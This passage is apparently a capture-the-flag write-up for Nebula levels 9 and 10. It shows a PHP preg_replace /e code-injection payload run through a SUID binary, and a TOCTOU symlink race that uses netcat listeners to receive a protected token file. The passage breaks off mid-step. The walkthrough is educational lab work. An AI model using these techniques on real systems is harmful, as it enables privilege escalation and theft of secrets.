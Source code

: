 ## Level 9
The _/home/flag09/flag09_ executable is a SUID wrapper over the presented vulnerable PHP code. The vulnerability lies in using the __e (PREG_REPLACE_EVAL)__ modifier with [preg_replace](http://php.net/manual/en/function.preg-replace.php) function. As noted [here](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php),  __*Use of this modifier is discouraged, as it can easily introduce security vulnerabilites*__.

The C wrapper runs the vulnerable script, which in turn parses the content to format email addresses. When an address is matched, the 'spam' function will be executed, having as input the matched string. We'll alter this, so that the email contains the [PHP system command](http://php.net/manual/en/function.system.php), with the script as parameter (_$filename_, as it is in the  'markup' function). The idea is the same as with the vulnerable code example from [`PREG_REPLACE_EVAL warnings`](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php):
```bash
level09@nebula:~$ vim /tmp/scr
[email {${system($filename)}}]
getflag > /tmp/out09
level09@nebula:~$ chmod +x /tmp/scr
level09@nebula:~$ /home/flag09/flag09 /tmp/scr
level09@nebula:~$ cat /tmp/out09
You have successfully executed getflag on a target account
```

## Level 10
The task here is to read the __*/home/flag10/token*__ file, using the vulnerable flag10 binary. The flow is as follows: the program checks if its first argument is a readable file (the token file is readable only for _flag10/flag10_), and if it is, tries to connect to a remote host and send the file. This is a clear example of a [Time-of-Check, Time-of-Use (TOCTOU)](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) vulnerability. We could easily trick it to send us an unreadable file.

### Method 1
* Create a world readable file in /tmp
* Start the script with this file as parameter. It will block on connect function
* Replace the file created in step 1 with a link to the token file
* Open the socket on the other side and receive the content of the file
```bash
$ touch /tmp/test
$ /home/flag10/flag10 /tmp/test localhost &
$ rm /tmp/test; ln -sf /home/flag10/token /tmp/test
c:\> nc -l -p 18211
```

### Method 2
In a scenario I had nebula VM, network in bridged mode, and _connect()_ call was non blocking, and timed out immediately. So the first method didn't work. The TOCTOU vulnerability can be still exploited. I've done the scenario created by Matt Andreko, with the exception that I've not used two machines, but just the nebula VM. More detailed explanation [here](http://www.mattandreko.com/2011/12/exploit-exercises-nebula-10.html). In 4 terminals:
* An infinite loop to append received output to a file:
```bash
$ while :; do nc.traditional -l -p 18211 >> out.txt; done
```
* An infinite loop (**-f** switch) to search for the banner in the received file:
```bash
$ tail -f out.txt | grep -v ".oO Oo."
```
* An infinite loop to replace */tmp/token10* link with a readable file and alternatively with the token file:
```bash
$ touch /tmp/token
$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; done
```
* Continuously start the flag10 binary with a low priority (-n 20), in an infinite loop, connecting to localhost: